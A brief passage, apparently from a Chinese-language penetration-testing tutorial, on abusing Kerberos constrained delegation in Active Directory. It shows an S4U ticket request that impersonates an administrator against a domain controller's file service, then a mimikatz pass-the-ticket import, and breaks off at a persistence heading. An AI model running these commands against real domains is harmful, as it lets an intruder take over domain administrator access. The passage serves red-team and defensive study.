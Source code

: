 利用TGT去申请两个ST。问题来了，为什么是两个。其中一个ST是验证自身的，另外一个ST就是 S4U2Proxy 扩展中申请的TGS票据

`tgs::s4u /tgt:xxxxx /user:administrator@xxcom.local /service:cifs/dc.xxcom.local`

![image](./imgs/约束2.png)

最后mimikatz导入

```shell
mimikatz:
kerberos::ptt xxx
```

## 0x07 权限维持

